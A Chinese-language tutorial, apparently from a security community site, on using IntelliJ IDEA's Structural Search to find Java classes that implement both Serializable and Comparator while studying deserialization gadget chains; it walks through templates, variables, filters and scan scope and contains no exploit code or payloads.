# IDEA Structural Search 抛砖引玉-先知社区

> **来源**: https://xz.aliyun.com/news/17824  
> **文章ID**: 17824

---

# Before All

在笔者学习Java反序列化链的时候，时常会碰到寻找合适类的问题，例如在学习Shiro550 CB链时，需要寻找一个类，需要同时满足3个条件：

1. 实现了`java.io.Serializable`接口；
2. 实现了`java.util.Comparator`接口；
3. `Java`、`shiro`或`commons-beanutils`自带，且兼容性强；

条件清楚，需要寻找的时候却犯了难：

在没有找到IDEA结构查询功能前，IDEA自带的"继承解析"并不支持交叉寻找。

~~（如果可以的话本文可能就是小丑了）~~

如下图（114个类）



作为新手入坑Java反序列化，总是想自己动动脑子的

> 师傅们给出的类可行，那么在当前依赖的环境下有多少类可行呢？

如果想要自己寻找，免不了挨个挨个看，必须进入类，进入类之后但是如例子中所示，**114**个`Comparator`接口类光是实现了`Serializable`接口的类，上帝视角来看，也才**13**个，挨个查找将很快耗尽一个拥有灵活思维的新手的耐心~~吧，笔者耐心这么少吗~~

> 目前能搜到的解决方案包括CodeQL，Tabby；但是CodeQL目前的参考文章属实不多，折腾一天之后再看Tabby，感觉时间全部浪费了，也没学到有用的（想学的）东西
>
> 而且CodeQL不能连带着项目和依赖一起查询（默认情况下），Tabby（没用不过不知道，不过好像是要打包为fatJAR）

偶然的机会了解到`IDEA Structural Search`，感觉蛮有用的，但是网上好像没有什么中英文教程（除了官网）

于是写点东西来给大家***抛砖引玉***

# Why IDEA Structural Search

1. CodeQL，Tabby 太重量级，学习成本不低
2. 相对于`Find in Files`进行简单的正则匹配，`Structural Search`提供类解析的能力
3. ~~可能有其他的好处吧，还没有深度使用~~

## For Example

例如你想要搜索的是

```
class XXX implements abcdABC
// abcdABC which is java.util.abcdABC
```

但是也同时存在接口类`java.io.abcdABC`，导致存在类

```
class XXX implements abcdABC
// abcdABC which is java.io.abcdABC
```

`Find in Files`的情况下：

1. 仅仅匹配`implements abcdABC`的话，结果中存在误匹配的类
2. 再正则匹配一下

```
import java.util.abcdABC;
.........
class XXX implements abcdABC
```

如果此时存在`implements java.util.abcdABC`，又会漏掉

此时非要使用`Find in Files`，要么接受漏掉的类，要编写复杂的正则匹配

# Where is IDEA Structural Search

笔者使用IDEA版本为 `IntelliJ IDEA 2024.3.1.1 (Ultimate Edition)`

> 版本过老的话可能会有所不同，不过目前的官方教程是最新版的教程，所以默认读者是最新版喔

功能位置如图所示



打开后如下图



# How to use it?

进入正题了

## Taste the Magic

搜索一个类，同时实现了下面两个接口

```
import com.sun.glass.ui.delegate.MenuDelegate;
import com.sun.glass.ui.delegate.MenuItemDelegate;
```

GIF FYI，~~如果模糊可以保存之后本地看~~


可以看到找到的都是符合条件的

## Manual of IDEA Structural Search

只做功能的基本介绍



### Menus on Left

先介绍左边的Menu的功能

#### Menu: Draft Template

保存草稿的地方，在这里你可以尽情进行尝试

#### Menu: Recent

每次开始`Find`搜索的时候，你所使用的模版会在这里进行保存

#### Menu: Saved Template

如果一个模版你想要保存，后续可以在很多项目中使用的话，点击左上角的图标，选择第一个`Save Template in IDE or Project...`

定义Template的名字，并且选择是否保存到项目文件中以便通过[VCS](https://zh.wikipedia.org/wiki/%E7%89%88%E6%9C%AC%E6%8E%A7%E5%88%B6)进行同步



保存后，就会存在于`Saved Template`目录了



#### Menu: Others Menu

* **这里是学习的重点，如果需要探索相关用法且本文没有提及的话，请善用这些目录内的子项**

其他的目录中包含了很多官方给出的简单示例，包含很多用法，本文的主要学习也依赖于此

### Editor Area

> * ***重点1***

所有在`Editor Area`合法的匹配模版都会在当前打开文件***尝试匹配***一次，如图



该模版匹配的是任意方法的调用，可以看到左侧绿色部分是当前文件的匹配结果（无需点击查找，自动且实时匹配）

这个可以很方便***学习模版匹配***和***模版编写检查***

> * ***重点2***

如果需要在依赖中搜索，Maven项目需要下载***源码***和***Documentation***

如果需要在依赖中搜索，Maven项目需要下载***源码***和***Documentation***

如果需要在依赖中搜索，Maven项目需要下载***源码***和***Documentation***



#### Template 框架

你可以在这里输入你创建好的基本模版，例如下面这一些\*\*`Template`框架\*\*

```
enum $Enum$ {}
```

```
class $Class$ {
  $FieldType$ $Field$ = $Init$;
}
```

```
class $Class$ {
  class $InnerClass$ {}
}
```

#### Template 变量

这里的`$AAA$`是\*\*`Template`变量\*\*，或者说可以进行模糊匹配的地方

变量名没有要求，所以

```
class $Class$ {
  class $InnerClass$ {}
}
```

可以写为

```
class $A$ {
    class $B$ {}
}
```

这样写是没有问题的

#### Template 过滤器

> * ***这里是重点***

但是一般来说，只有基本的`Template`框架配合一些变量，也只达到正则匹配的低配版，核心的部分在于\*\*`Template`过滤器\*\*

双击变量，选中后点击右上角的图标，可以进入下图，点击加号可以添加过滤规则

> 官方写的是***Modifier***，我理解是修饰语，用于给变量做限定。但面向小白，翻译为了过滤规则



关于过滤器与过滤规则你需要知道：

* 过滤规则是针对***变量***或者***变量的组合***来进行编辑的
* 所有的过滤规则组成了该变量的***过滤器***
* ***不同种类的变量***可以添加的***过滤规则种类不一定相同***
* ***变量的种类***取决于该变量在`Template`框架中的位置（也就是按照`Java`语法来解析[AST](https://zh.wikipedia.org/wiki/%E6%8A%BD%E8%B1%A1%E8%AA%9E%E6%B3%95%E6%A8%B9)以确认他的类型）

过滤规则包含以下几类

##### Text



1. 可以用以确认该变量的类型，可以是***全限定类名***或者`Object`（目前官方给出的）  
   Object示例  
   
2. 可以用以确认该变量的字符串匹配（支持***正则表达式***）  
   

###### Within type hierarchy

> 选择 Within type hierarchy 选项，可以将间接实现 XXX 的类包含在搜索中。如果未选择此选项，则仅包含直接实现 Cloneable 的类。

所以一般来说建议开启

##### Count

用于计数，可以看指定变量出现了多少次

> 注意，包含默认次数，有些变量类型的默认次数为`Unlimited`。
>
> 不符合要求会报错提示



示例：



不指定参数数量的方法搜索

##### Reference

这个就很高级了，我这里给出官方案例的演示吧

首先匹配任意方法调用



再给`$MethodCall$`添加过滤条件，为注解过的函数



搜索结果如下



###### Invert modifier

反转选择，否定

在上方的例子中，如果选择了`Annotated methods`，再开启此选项，匹配的是***没有注解***的任意方法

##### Script

给个例子感受一下

* 例如需要找指定类类中所有方法，该变量不是接口类，不是枚举类，不是记录类~~？~~



```
!__context__.interface && !__context__.enum && !__context__.record
```

至于有哪些可用的，可能需要参考GroovyScript



##### Type

可用指定变量的类型

* 如果一个变量可同时使用`Type`和`Text`进行过滤，此时`Text`***只用作***目标字符串的匹配（可以使用正则表达式）



### Bar Under the Editor Area

这一块的功能解析



#### Target

选择要匹配的对象，GIF FYI



#### Injected code

如果选中此项，注入的代码（例如注入到HTML代码中的JavaScript，或Java中的SQL注入）将成为搜索过程的一部分。

#### Match case

大小写匹配

#### Scan Scope

扫描范围的限制，分为

* In Project：在当前项目中扫描
* Module：指定模块进行扫描（比`In Project`精细）
* Directory：指定扫描目录
* Scope：更精细的控制（可以设置添加远程地址）  
  

# Practical Case~~s~~

需求如[这里](#before-all)

`Tamplate`如下

```
class $A$ implements $Interface1$,$Interface2$ {
}
```

`$Interface1$:text = java\.util\.Comparator (Within type hierarchy)`

`$Interface2$:text = java\.io\.Serializable (Within type hierarchy)`

下图为使用结果，经过简单的筛选之后就只剩下13个了，很有帮助 ~~至少留下来的都是符合基本要求的~~

